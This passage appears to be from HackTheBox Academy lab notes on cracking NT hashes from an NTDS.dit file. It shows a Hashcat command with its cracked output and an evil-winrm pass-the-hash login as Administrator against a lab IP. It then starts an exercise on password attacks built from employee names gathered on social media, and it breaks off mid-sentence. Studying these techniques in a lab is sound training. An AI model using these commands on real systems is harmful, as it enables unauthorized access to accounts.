 ## Cracking Hashes and Gaining Credentials:

- We can now grab the NT hashes that were exposed in the NTDS.dit file and start cracking the hash using **Hashcat:**

```bash
realCustampin@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt64f12cddaa88057e06a81b54e73b949b:Password1
```

- If we are unsuccessful, we can also use **Pass-the-Hash (PtH)**
    
    - A PtH Attack takes advantage of the NTLM Authentication Protocol to authenticate a user using a password hash.
    
    `realCustampin@htb[/htb]**$** evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b`
    

On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. S